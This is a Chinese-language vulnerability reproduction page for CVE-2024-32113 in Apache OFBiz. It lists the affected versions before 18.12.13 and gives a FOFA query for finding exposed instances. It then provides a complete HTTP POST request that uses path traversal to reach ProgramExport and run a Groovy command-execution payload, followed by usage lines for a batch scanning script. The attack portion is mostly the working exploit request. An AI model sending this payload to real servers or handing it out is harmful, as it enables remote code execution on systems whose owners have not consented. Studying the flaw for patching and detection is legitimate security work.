 # CVE-2024-32113 Apache OFBiz 目录遍历致代码执行漏洞

### 1.漏洞描述

Apache OFBiz是一个电子商务平台，用于构建大中型企业级、跨平台、跨数据库、跨应用服务器的多层、分布式电子商务类应用系统。2024年5月，官方发布新版本修复了CVE-2024-32113 Apache OFBiz 目录遍历致代码执行漏洞，攻击者可构造恶意请求控制服务器。建议尽快修复漏洞。

### 2.影响版本

Apache OFBiz  18.12.13之前的版本

### 3.fofa语法

```plain
app="Apache_OFBiz"
```

### 4.漏洞复现

```plain
POST /webtools/control/forgotPassword/%2e/%2e/ProgramExport HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:70.0) Gecko/20100101 Firefox/70.0
Connection: close
Content-Length: 55
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip

groovyProgram=throw+new+Exception('id'.execute().text);
```

![img](https://cdn.nlark.com/yuque/0/2024/png/42783549/1719917887320-cec5e5f2-c23f-4d77-9451-8befe7038512.png)

### 5.py脚本

```plain
python3 脚本文件名 -u "http://127.0.0.1"  # 测试单个url
python3 脚本文件名 -f url.txt             # 测试多个url
```